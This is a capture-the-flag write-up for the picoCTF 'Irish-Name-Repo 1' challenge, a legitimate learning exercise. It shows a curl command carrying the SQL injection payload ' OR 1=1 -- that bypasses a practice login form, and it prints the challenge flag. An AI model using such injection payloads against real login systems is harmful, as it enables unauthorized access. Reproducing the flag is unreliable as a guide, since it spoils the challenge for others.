


# Irish-Name-Repo 1

## Description

> There is a website running at [Link](https://jupiter.challenges.picoctf.org/problem/50009/). Do you think you can log us in? Try to see if you can login!

## Hints

> There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
>
> Try to think about how the website verifies your login.

## Write-Up

When accessing a website, we can find a list of profiles displayed in the page : 


When we open this site, we see the content of the main page is not very helpful. When we look at the Support page however, we see an inquiry saying `Hi. I tried adding my favorite Irish person, Conan O'Brien. But I keep getting something called a SQL Error`. This tells us that the site uses a SQL database.

In the menu, we can see that there is a admin login portal. Let's explore it and see what is hides.


It seems like it is a normal login portal :



Let's curl it to get the action route and name fields (we can check those in the console as well) :




```
└─$ curl 'https://jupiter.challenges.picoctf.org/problem/50009/login.html'
<!doctype html>
<html>
<head>
    <title>Login</title>
    <link rel="stylesheet" type="text/css" href="//maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
</head>
<body>
<div class="container">
    <div class="row">
        <div class="col-md-12">
            <div class="panel panel-primary" style="margin-top:50px">
                <div class="panel-heading">
                    <h3 class="panel-title">Log In</h3>
                </div>
                <div class="panel-body">
                    <form action="login.php" method="POST">
                        <fieldset>
                            <div class="form-group">
                                <label for="username">Username:</label>
                                <input type="text" id="username" name="username" class="form-control">
                            </div>
                            <div class="form-group">
                                <label for="password">Password:</label>
                                <div class="controls">
                                    <input type="password" id="password" name="password" class="form-control">
                                </div>
                            </div>
                            <input type="hidden" name="debug" value="0">

                            <div class="form-actions">
                                <input type="submit" value="Login" class="btn btn-primary">
                            </div>
                        </fieldset>
                    </form>
                </div>
            </div>
        </div>
    </div>
</div>
</body>
</html>
```

From the hints of the challenge and what we found, we may suspect that the login system is vulnerable to **SQL Injections**, let's try to make a basic injection what it does :

```
curl 'https://jupiter.challenges.picoctf.org/problem/50009/login.php' --X POST --data "username=' OR 1=1 -- &password="
```

Indeed, it was vulnerable to **SQLi** :

```html
<h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}</p>
```

What is happening here is the query checks if the username is equal to nothing. Then, it checks OR 1=1. Since 1 is always going to be equal to 1, this returns true. The -- at the end simply comments out the rest of the query. This fools the server into letting us through the portal.


## Flag

picoCTF{s0m3_SQL_fb3fe2ad}

## More Information

 - SQL Injection : https://www.w3schools.com/sql/sql_injection.asp 
